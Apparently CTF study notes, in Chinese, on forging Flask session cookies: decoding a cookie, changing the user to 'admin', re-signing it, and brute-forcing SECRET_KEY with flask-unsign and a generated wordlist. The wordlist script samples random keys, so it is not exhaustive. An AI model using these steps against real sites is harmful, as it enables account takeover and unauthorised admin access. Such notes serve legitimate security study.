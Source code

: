 <https://www.cnblogs.com/chrysanthemum/p/11722351.html>
<https://www.cnblogs.com/murkuo/p/15174413.html>
先获取session的解密原session。
python ctf/flask_decode.py   .eJw9kE-xxx

session.get('a')  即 session['a'] 即 jwt令牌中的a参数。
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
修改里面的载体，如user改admin。
```
{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}
```

再加密：
使用密钥+载体字符生成新session脚本：
<https://github.com/noraj/flask-session-cookie-manager>

```
python flask_session_cookie_manager3.py encode -s '密钥' -t '载体'

python flask_session_cookie_manager3.py encode -s "ckj123" -t  "{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}"
```


最后抓包替换即可。


^
## **爆破SECRET_KEY**
用flask-unsign爆破SECRET_KEY
```
pip311 install flask-unsign[wordlist]


flask-unsign --unsign -e eyJ.... --wordlist key.txt

自动破解
flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6ImxieiJ9.ZoO6sQ.1qmeqKQDnxZyPqeCWGtw_50wWss'
自动破解并输出密钥
flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImxieiJ9.ZoO6sQ.1qmeqKQDnxZyPqeCWGtw_50wWss'
```
或./jwtcrack



^
字典生成
列如：os.urandom(2).hex()会生成长度为4的字符串
```
import os
file_path='./key.txt'
with open(file_path, 'w') as f:
    for i in range(1,9999):
        key = os.urandom(2).hex()
        f.write("\"{}\"\n".format(key))
```


